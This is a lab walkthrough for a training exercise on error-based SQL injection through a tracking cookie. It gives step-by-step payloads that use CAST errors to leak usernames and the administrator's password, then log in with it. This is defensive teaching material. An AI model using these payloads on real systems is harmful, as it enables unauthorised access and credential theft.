








# Lab 11: Visible error-based SQL injection

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the 
SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

### **Solution**

1. Using Burp's built-in browser, explore the lab functionality.

2. Go to the **Proxy > HTTP history** tab and find a `GET /` request that contains a `TrackingId` cookie.




3. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request.

```sql
TrackingId=ogAZZfxtOKUELbuJ'
```



4. In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.

verbose / detailed error:

```jsx
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'AQo0n3s5Wl6APnDG''. Expected  char
```


                    
5. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:

```sql
TrackingId=ogAZZfxtOKUELbuJ'--
```



6. Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.
                    
7. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type:

```sql
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```


- The `CAST()` function in SQL is used to **convert a value from one data type to another**. However, when performing such conversions, there is a possibility of encountering an error. Note that a verbose message is already available on this page.

```jsx
SELECT CAST('123' AS INT);  -- returns 123
```

8. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
                    
9. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:

```sql
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```



10. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
                    
11. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:

```sql
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```



12. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix
 up the query aren't included.
                    
13. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```



14. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it 
unexpectedly returned more than one row.
                    
15. Modify the query to return only one row:

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

16. Send the request. Observe that the error message now leaks the first username from the `users` table:

```sql
ERROR: invalid input syntax for type integer: "administrator"
```



17. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:

```sql
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```



18. Log in as `administrator` using the stolen password to solve the lab.


### **Community solutions**

> [https://youtu.be/sAZV4z9rOVE](https://youtu.be/sAZV4z9rOVE)
>